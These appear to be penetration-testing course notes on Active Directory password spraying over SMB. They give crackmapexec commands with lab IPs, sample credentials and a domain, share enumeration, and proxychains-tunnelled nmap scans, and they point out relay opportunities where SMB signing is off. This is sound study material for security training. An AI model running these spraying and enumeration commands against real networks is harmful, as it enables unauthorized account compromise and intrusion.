 - [[AD Password Attacks]]
- [[Proxychains]]

- 2nd Type of Password spraying attack (SMB):  
- Drawback:  
- For example, for every authentication attempt, a full SMB connection has to be set up and then terminated.  
- **crackmapexec**  
- `cat users.txt`  
- `crackmapexec smb 192.168.200.75 -u usernames.txt -p 'Nexus123!' -d corp.com --continue-on-success`  
- smb = protocol  
- -u = username/file  
- -p = password  
- -d = domain  
- --continue-on-success = avoid stopping at the first valid credential  
- Bonus:  
- output of crackmapexec not only displays if credentials are valid, but also if the user with the identified credentials has admin priv on tgt system  
- Dave is a local admin on CLIENT75. Let's use crackmapexec with the password Flowers1 targeting this machine  
-`crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com`

Ex2
Use **crackmapexec** and check these credentials against SMB on MAILSRV1.

- `crackmapexec smb 192.168.50.242 -u usernames.txt -p passwords.txt --continue-on-success`
- `crackmapexec smb 192.168.50.242 -u john -p "dqsTwTpZPn#nL" --shares`

Ex3

- 1. Begin with CrackMapExec's SMB module to retrieve basic information of the identified servers (such as SMB settings). We'll also provide the credentials for _john_ to list the SMB shares and their permissions with **--shares**
        - `proxychains -q crackmapexec smb 172.16.6.240-241 172.16.6.254 -u john -d beyond.com -p "dqsTwTpZPn#nL" --shares`
            - [Note]:
                - `CrackMapExec version 5.4.0 may throw the error The NETBIOS connection with the remote host is timed out for DCSRV1, or doesn't provide any output at all. Version 5.4.1 contains a fix to address this issue`
        - result -> The output also states that MAILSRV1 and INTERNALSRV1 have SMB signing set to False. Without this security mechanism enabled, we can potentially perform _relay attacks_ if we can force an authentication request.
- Next, let's use **Nmap** to perform a port scan on ports commonly used by web applications and FTP servers targeting MAILSRV1, DCSRV1, and INTERNALSRV1. We have to specify **-sT** to perform a TCP connect scan. Otherwise, Nmap will not work over Proxychains.
    - `sudo proxychains -q nmap -sT -oN nmap_servers -Pn -p 21,80,443 172.16.6.240 172.16.6.241 172.16.6.254`
- While we could use the SOCKS5 proxy and proxychains to browse to the open port on 172.16.6.241, we'll use **Chisel** as it provides a more stable and interactive browser session.